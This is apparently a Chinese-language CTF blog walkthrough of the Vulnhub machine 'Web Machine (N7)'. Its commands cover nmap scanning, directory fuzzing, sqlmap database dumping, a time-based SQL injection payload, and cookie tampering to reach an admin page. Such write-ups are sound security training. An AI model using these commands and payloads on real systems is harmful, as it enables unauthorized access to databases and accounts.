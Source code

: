 ```yaml
---
layout: post
title: Web Machine (N7)
subtitle: Web Machine (N7)
date: 2022-12-09 20:35
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
  - 靶场实战
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. Web Machine (N7)

靶机 ip：192.168.56.101

kali 攻击机 ip：192.168.56.102

注：关于 vmware 和 virtual box 虚拟机如何建立网络连接，详见：[不同虚拟化平台的虚拟机之间进行网络通信 - 简书](https://www.jianshu.com/p/632d91db9430)

### 1.1. 使用 nmap 扫描 c 段

```shell
nmap -sS 192.168.56.0/24
# 发现192.168.56.101
nmap -sV -sC -A 192.168.56.101
# 发现只有80端口开放
```

### 1.2. 扫描目录

```shell
dirb http://192.168.56.101
# http://192.168.56.101/index.html
# http://192.168.56.101/server-status
```

在浏览器查看，未发现有效信息，继续扫描

```shell
wfuzz -w /usr/share/fuzzDicts/ctfDict/ctf.txt --hc 404 http://192.168.56.101/FUZZ

ffuf -u "http://192.168.56.101/FUZZ" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -fc 404 -e .html,.txt,.php,.zip
```

发现 exploit.html 文件，访问并提交文件，发现跳转到 localhost。将 localhost 改为靶机 ip 尝试。

![image-20221209203518987.png](https://img.ghostliner.top/Zk10Bb.png)

点击提交，得到部分 flag `FLAG{N7`

通过扫描得到`enter_network/index.php` 和 `enter_network/admin.php` 。第一个为登陆界面，第二个需要 admin 权限。接下来可以对登陆界面使用 sqlmap 检测是否有注入漏洞，或是 bp 抓包分析。

### 1.3. 使用 sqlmap 进行 sql 注入

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --dbs --current-db
# 数据库名 Machine
```

![image-20221209174849702.png](https://img.ghostliner.top/hMbCrZ.png)

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" --tables
```

得到 tables: login

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" -T "login" --columns
```

得到 colums: password;role;username

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" -T "login" -C "username,role,password" --dump
# username:administrator
# role:admin
# password:FLAG{N7:KSA_01}
```

![image-20221209174731002.png](https://img.ghostliner.top/5AH2sR.png)

### 1.4. bp 抓包分析

![image-20221209205529082.png](https://img.ghostliner.top/nKhqbY.png)

response 中 set-Cookie 中`%253D`为=

```
MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM=
# 尝试进行base64解密
21232f297a57a5a743894a0e4a801fc3
# 32位尝试MD5解密
admin
```

思路 1：用户名处输入`1'+or+sleep(3)--+`发现有注入漏洞，可根据时间盲注，结合 bp 或 sqlmap。

思路 2：根据此漏洞猜解用户名，不如思路 1。

思路 3：针对 admin.php，修改 request 中 cookie 中 role 为 admin

![image-20221209212032503.png](https://img.ghostliner.top/gAMIcc.png)

得到： `KSA_01}`
